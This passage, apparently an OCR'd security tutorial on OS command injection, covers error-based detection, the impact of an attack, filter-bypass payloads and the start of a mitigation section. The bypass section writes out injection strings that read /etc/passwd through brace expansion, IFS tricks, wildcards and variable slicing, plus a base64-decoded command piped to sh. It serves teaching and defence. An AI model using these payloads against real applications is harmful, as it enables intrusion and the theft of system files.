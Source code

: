 Error-Based Detection:

```
& invalid_command 2>&1 &      # Check for error messages
```

### 7. Impact of Command Injection

- Complete Server Compromise: Execute any command with application privileges
- Data Exfiltration: Read sensitive files, databases, configuration
- Privilege Escalation: Exploit SUID binaries or kernel vulnerabilities
- Lateral Movement: Use compromised server to attack internal network
- Persistent Access: Install backdoors, create user accounts
- Denial of Service: Resource exhaustion, system crashes
- Data Destruction: Delete files, corrupt databases

### 8. Bypassing Filters

Common Bypasses:

- Case variation: WhOaMi (if filter is case-sensitive)
- Command substitution: `whoami` (using backticks) or $(whoami)
- Wildcards: /???/??t /???/p??swd instead of /bin/cat /etc/passwd
- Environment variables: $PATH, $HOME
- Escape sequences: \w\h\o\a\m\i
- Hex encoding: \x77\x68\x6f\x61\x6d\x69
- Base64 encoding: `echo d2hvYW1p | base64 -d | sh`
- Comment tricks: cat</etc/passwd (no space)
- Newline injection: Using URL-encoded %0a

Context-Based Bypasses:

If spaces are filtered:

```
{cat,/etc/passwd}
cat</etc/passwd
IFS=,;cat${IFS}/etc/passwd
cat$IFS/etc/passwd
```

If slashes are filtered:

```
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

### 9. Mitigation Strategies

Input Validation:

- Whitelist allowed characters/values
- Reject input containing shell metacharacters: ; `| & $ > <`  ` \n`
- Use strict regex patterns for expected input formats

Avoid Shell Execution:
